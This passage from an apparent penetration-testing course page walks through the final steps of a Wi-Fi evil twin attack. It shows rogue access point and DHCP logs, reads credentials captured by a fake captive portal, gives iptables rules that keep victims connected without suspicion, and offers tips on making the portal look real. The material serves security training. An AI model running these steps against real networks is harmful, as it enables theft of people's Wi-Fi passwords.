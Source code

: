 rfkill: Cannot open RFKILL control device
wlan0: interface state UNINITIALIZED-&gt;ENABLED
wlan0: AP-ENABLED 
wlan0: STA C2:CA:2A:79:D5:87 IEEE 802.11: authenticated
wlan0: STA C2:CA:2A:79:D5:87 IEEE 802.11: associated (aid 1)
wlan0: AP-STA-CONNECTED C2:CA:2A:79:D5:87
wlan0: STA C2:CA:2A:79:D5:87 RADIUS: starting accounting session D82057CD7522F435
</code></pre>
<p>Additionally, we would observe a DHCP request from the client for an IP address in the <code>dnsmasq</code> tab, confirming that the client is attempting to communicate through the rogue access point.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo dnsmasq -C dns.conf -d

dnsmasq-dhcp: 2979841318 available DHCP range: 192.168.0.2 -- 192.168.0.254
dnsmasq-dhcp: 2979841318 client provides name: client
dnsmasq-dhcp: 2979841318 DHCPREQUEST(wlan0) 192.168.0.232 C2:CA:2A:79:D5:87
dnsmasq-dhcp: 2979841318 tags: wlan0
dnsmasq-dhcp: 2979841318 DHCPACK(wlan0) 192.168.0.232 C2:CA:2A:79:D5:87 client
</code></pre>
<hr/>
<h3>5. Capture &amp; Validate the credentials</h3>
<p>After a client successfully connects, they will be redirected to our fake captive portal, which would look like following:</p>
<p><img alt="manual" src="https://academy.hackthebox.com/storage/modules/291/captive_.PNG"/></p>
<p>If the client enters their password, the credentials will be captured and saved in the <code>passes.lst</code> file.</p>
<pre><code class="language-shell-session">[!bash!]$ cat /var/www/html/passes.lst 
&lt;SNIP&gt;
</code></pre>
<p>After the victim enters the correct password in the captive portal, we can enable internet access for them by configuring the iptables firewall rules. This step is crucial to avoid raising suspicion and maintain the connection.</p>
<pre><code class="language-shell-session">[!bash!]$ iptables --append POSTROUTING --table nat --out-interface eth0 -j MASQUERADE
[!bash!]$ iptables --append FORWARD --in-interface wlan0 -j ACCEPT
</code></pre>
<ul>
<li>The first rule enables NAT masquerading, allowing traffic from the rogue AP to route through the attacker's internet-connected interface (eth0).</li>
<li>The second rule accepts traffic from the rogue AP interface (wlan0), allowing clients to communicate with external networks.</li>
</ul>
<hr/>
<h2>Key Considerations:</h2>
<p>The success of this evil twin attack depends on the following key factors:</p>
<ul>
<li>
<code>Signal Dominance</code>: Ensure the rogue AP consistently provides a stronger signal to maintain the client's connection.</li>
<li>
<code>Captive Portal Realism</code>: The success of the attack depends on the captive portal's design. It must convincingly imitate the legitimate login page.</li>
<li>
<code>Credential Validation</code>: Ensure that only valid credentials are used, avoiding detection from repeated incorrect login attempts.</li>
</ul>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.